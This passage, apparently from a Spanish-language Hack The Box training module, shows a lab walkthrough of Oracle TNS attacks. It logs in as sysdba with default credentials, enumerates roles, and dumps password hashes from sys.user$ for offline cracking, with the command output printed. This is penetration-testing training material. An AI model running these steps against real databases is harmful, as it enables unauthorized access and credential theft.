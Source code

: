 #### Oracle RDBMS - Enumeración de bases de datos

  Oráculo TNS

```shell-session
zunderrubb@htb[/htb]$ sqlplus scott/tiger@10.129.204.235/XE as sysdba

SQL*Plus: Release 21.0.0.0.0 - Production on Mon Mar 6 11:32:58 2023
Version 21.4.0.0.0

Copyright (c) 1982, 2021, Oracle. All rights reserved.


Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production


SQL> select * from user_role_privs;

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            ADM_PARALLEL_EXECUTE_TASK      YES YES NO
SYS                            APEX_ADMINISTRATOR_ROLE        YES YES NO
SYS                            AQ_ADMINISTRATOR_ROLE          YES YES NO
SYS                            AQ_USER_ROLE                   YES YES NO
SYS                            AUTHENTICATEDUSER              YES YES NO
SYS                            CONNECT                        YES YES NO
SYS                            CTXAPP                         YES YES NO
SYS                            DATAPUMP_EXP_FULL_DATABASE     YES YES NO
SYS                            DATAPUMP_IMP_FULL_DATABASE     YES YES NO
SYS                            DBA                            YES YES NO
SYS                            DBFS_ROLE                      YES YES NO

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            DELETE_CATALOG_ROLE            YES YES NO
SYS                            EXECUTE_CATALOG_ROLE           YES YES NO
...SNIP...
```

Podemos seguir muchos enfoques una vez que obtenemos acceso a una base de datos Oracle. Depende en gran medida de la información que tengamos y de toda la configuración. Sin embargo, no podemos añadir nuevos usuarios ni realizar ninguna modificación. A partir de este punto, podríamos recuperar los hashes de la contraseña e intentar descifrarlos sin conexión. La consulta para esto sería similar a la siguiente:`sys.user$`

#### Oracle RDBMS - Extraer hashes de contraseña

  Oráculo TNS

```shell-session
SQL> select name, password from sys.user$;

NAME                           PASSWORD
------------------------------ ------------------------------
SYS                            FBA343E7D6C8BC9D
PUBLIC
CONNECT
RESOURCE
DBA
SYSTEM                         B5073FE1DE351687
SELECT_CATALOG_ROLE
EXECUTE_CATALOG_ROLE
DELETE_CATALOG_ROLE
OUTLN                          4A3BA55E08595C81
EXP_FULL_DATABASE
```